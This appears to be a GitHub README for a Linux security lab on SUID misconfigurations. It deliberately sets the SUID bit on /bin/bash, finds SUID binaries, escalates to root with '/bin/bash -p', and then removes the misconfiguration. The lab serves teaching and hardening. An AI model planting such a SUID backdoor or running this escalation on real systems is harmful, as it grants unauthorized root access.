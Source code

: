 # ⚠️ Linux Security: SUID Exploitation & Hardening

This repository demonstrates **SUID misconfigurations** in Linux, focusing on **privilege escalation techniques** and **security hardening** strategies. 🚀

---

## 🎯 Project Scope
This guide will help you:
- 🔍 **Identify SUID vulnerabilities**
- 🛠 **Exploit misconfigured SUID binaries for privilege escalation**
- 🔐 **Implement security measures to mitigate risks**

---

## 🔥 Step 1: Setup - Creating a Vulnerable SUID Environment

### 🛑 **1️⃣ Set SUID Bit on Bash (Risky!)**
```bash
# Grant SUID to Bash (VERY DANGEROUS)
┌──(kali㉿kali)-[~]
└─$ sudo chmod u+s /bin/bash

# Verify SUID is set
┌──(kali㉿kali)-[~]
└─$ ls -l /bin/bash  
-rwsr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### 📝 **2️⃣ Create a Root-Owned SUID Script**
```bash
# Create a script with root ownership
┌──(kali㉿kali)-[~]
└─$ sudo nano /root/root_script.sh

# Paste the following inside nano:
#!/bin/bash
echo "Running as: $(whoami)"
id

# Save & exit, then make it executable
┌──(kali㉿kali)-[~]
└─$ sudo chmod 4755 /root/root_script.sh

# Verify SUID permissions
┌──(kali㉿kali)-[~]
└─$ ls -l /root/root_script.sh     
-rwsr-xr-x 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

---

## 🚀 Step 2: Exploiting SUID to Gain Root Access

### 🔎 **3️⃣ Finding Vulnerable SUID Binaries**
```bash
# Search for all SUID binaries
┌──(kali㉿kali)-[~]
└─$ find / -perm -4000 2>/dev/null
/usr/bin/passwd
/usr/bin/sudo
/usr/lib/chromium/chrome-sandbox
/usr/lib/openssh/ssh-keysign
... (more results)
```

### 🛠 **4️⃣ Exploit SUID on Bash to Escalate Privileges**
```bash
# Run Bash with SUID privilege
┌──(kali㉿kali)-[~]
└─$ /bin/bash -p

# Verify if we have root access
bash-5.2# whoami
root

# Execute root-owned script
bash-5.2# /root/root_script.sh
Running as: root
uid=0(root) gid=0(root) groups=0(root)
```

---

## 🔐 Step 3: Mitigating SUID Vulnerabilities

### ❌ **5️⃣ Remove SUID from Bash**
```bash
# Remove the SUID bit from Bash
bash-5.2# sudo chmod -s /bin/bash

# Verify SUID is removed
bash-5.2# ls -l /bin/bash
-rwxr-xr-x 1 root root 1298416 Oct 20 16:49 /bin/bash
```

### 🔒 **6️⃣ Secure SUID Scripts**
```bash
# Restrict access to root-owned scripts
bash-5.2# sudo chown root:root /root/root_script.sh
bash-5.2# sudo chmod 700 /root/root_script.sh

# Verify secure permissions
bash-5.2# ls -l /root/root_script.sh
-rwx------ 1 root root 44 Mar 19 18:30 /root/root_script.sh
```

---

## 📌 Task 4 - Summary Table

| **Step**  | **Action** | **Command/Details** |
|-----------|--------------------------------|-----------------------------|
| 🛠 **Setup** | Set SUID on Bash (insecure) | `sudo chmod u+s /bin/bash` |
| | Create a root-owned script | `nano /root/root_script.sh` |
| | Set SUID on the script | `sudo chmod 4755 /root/root_script.sh` |
| | Verify permissions | `ls -l /bin/bash /root/root_script.sh` |
| 🚀 **Exploitation** | Find SUID binaries | `find / -perm -4000 2>/dev/null` |
| | Exploit SUID Bash | `/bin/bash -p` |
| | Verify root access | `whoami` |
| | Execute root-owned script | `/root/root_script.sh` |
| 🔐 **Mitigation** | Remove SUID from Bash | `sudo chmod -s /bin/bash` |
| | Restrict script execution to root | `sudo chmod 700 /root/root_script.sh` |
| | Verify permissions after mitigation | `ls -l /bin/bash /root/root_script.sh` |

---

### 🛡️ **Final Thoughts**
✅ **Understanding SUID vulnerabilities is crucial for both ethical hacking and system security. Always audit your system to prevent privilege escalation attacks!**

🚀 Stay Secure! 🔒
